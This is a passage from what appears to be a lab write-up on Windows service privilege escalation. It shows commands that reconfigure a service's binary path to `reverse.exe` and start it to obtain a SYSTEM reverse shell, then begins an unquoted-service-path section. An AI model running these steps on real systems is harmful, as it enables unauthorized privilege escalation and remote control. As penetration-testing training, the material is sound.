 Checking if the service is running or stopped currently `sc query daclsvc`&#x20;

<figure><img src=".gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>3</p></figcaption></figure>

We can modify the service config and set the BINARY\_PATH\_NAME (binpath) to the reverse.exe executable:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`

<figure><img src=".gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption><p>4</p></figcaption></figure>

### 2 - Unquoted Service Paths

#### Detection

Using `winPEASany.exe quite servicesinfo` - we see an "unquotedsvc" service, lets take a look at it with `sc qc unquotedsvc`&#x20;

